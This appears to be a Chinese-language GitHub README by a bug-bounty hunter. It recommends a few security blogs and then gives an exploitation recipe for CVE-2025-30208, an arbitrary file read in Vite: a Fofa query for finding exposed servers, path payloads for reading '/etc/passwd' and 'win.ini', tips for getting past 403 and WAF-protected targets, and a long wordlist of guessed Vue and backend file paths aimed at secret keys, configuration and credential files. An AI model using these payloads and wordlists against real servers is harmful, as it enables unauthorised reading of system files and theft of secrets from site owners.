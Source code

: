 ### 博客推荐

https://w8ay.fun/toc 最近很火的src用Xss工具挖了几十万的开发者 (观后感:果然大佬都是沉淀多年的，一个工具系列开发了这么多年)

https://dog.xmu.edu.cn/ （看毕设论文选题检索到的，读作者跨越二十年期间写的文章还挺有意思的)

https://blog.thekingofduck.com/  (有写具体的一些黑白盒审计案例)

### 一些自己遇到的bypass场景用的脚本poc和一些挖src或者攻防的小思路，后续会慢慢搜集，感兴趣的可以关注，欢迎交流挖洞的技巧。同时，我会把最新更新的内容都放在README这里

## CVE-2025-30208
通过url去拼接下面路径来任意文件读取

Fofa测绘语句:
```
body="/@vite/client"
```
poc
```
/etc/passwd?raw"  # Linux系统文件

"/Windows/win.ini?raw" #windows文件
```
## poc就是这么简单，市面上能检索到的也挺多，不过这里添加进来也是有个思路所以记录一下

搜集完后去扫基本已经没剩几个了，很多都重复，不过有个其他的思路。讲一个小技巧，现在基本上常规的直接拼接路径已经刷烂了，不过我们可以把注意力放到一些403和有waf的网站
![a3bb815b6baee72ad140b6c829163a8](https://github.com/user-attachments/assets/bfd9424e-933d-43a1-bc16-c2f1038b47f2)

我们通过拼接这个路径去看有没有相关的内容，然后拼接一些vue开发最为熟悉的一些路径,下面为一些举例，具体还是需要看网站的线索来分析，通过一步步的扫雷式来进行扩散最后完成挖掘，这样我们就可以捡漏拿站交src了
![image](https://github.com/user-attachments/assets/a9e41bda-3973-4230-81e1-dfc6a1161890)

也是成功拼接读取，这里就贴个厚码证明可行性，再利用过程就不多说了，有这个思路大部分人就懂了，下面如今只是举例，真实的自己去进一步猜测，可以根据同一资产的类似网页来判断已经vue常用的框架结构探测，这里还有一点**读取的目录是否存在是可以探测的**,所以fuzz是一个好
办法。
以上思路仅供参考~

例如

/project/frontend/src/views/home.vue

/project/frontend/src/views/about.vue

/project/frontend/src/views/products.vue

/project/frontend/src/views/cart.vue

/project/frontend/src/views/checkout.vue

/project/frontend/src/views/orders.vue

/project/frontend/src/views/contact.vue

/project/frontend/src/views/faq.vue

/project/frontend/src/views/privacyPolicy.vue

/project/frontend/src/views/termsOfUse.vue

/project/frontend/src/views/profileEdit.vue

/project/frontend/src/views/changePassword.vue

/project/frontend/src/views/maintenance.vue

/project/frontend/src/constants/api-config.js

/project/frontend/src/constants/security-keys.js

服务类

/project/frontend/src/services/auth-handler.js

/project/frontend/src/services/cloud-service.js

/project/frontend/src/services/payment.js

页面组件
/project/frontend/src/views/admin/settings.vue

/project/frontend/src/views/admin/dashboard.vue

/project/frontend/src/views/admin/users.vue

/project/frontend/src/views/admin/orders.vue

/project/frontend/src/views/payment/confirm.vue

/project/frontend/src/views/user/security.vue

/project/frontend/src/views/user/profile.vue

/project/frontend/src/views/user/orders.vue

# 路由与状态

/project/frontend/src/router/private-routes.js

/project/frontend/src/router/admin-routes.js

/project/frontend/src/store/modules/secure-store.js

/project/frontend/src/store/modules/admin-store.js

# 后端路径
## 配置类

/project/backend/src/config/private-settings.js

/project/backend/src/config/third-party-keys.js

/project/backend/src/config/secret-manager.js

## 工具类

/project/backend/src/utils/crypto-helpers.js

/project/backend/src/utils/secure-logger.js

/project/backend/src/utils/jwt-generator.js

## 服务类
/project/backend/src/services/secure-auth.js

/project/backend/src/services/cloud-storage.js

/project/backend/src/services/payment-gateway.js
## 控制器
/project/backend/src/controllers/admin/security.js
/project/backend/src/controllers/admin/dashboard.js
/project/backend/src/controllers/admin/users.js
/project/backend/src/controllers/admin/orders.js
/project/backend/src/controllers/payment/process.js
/project/backend/src/controllers/user/credentials.js
/project/backend/src/controllers/user/profile.js
/project/backend/src/controllers/user/orders.js
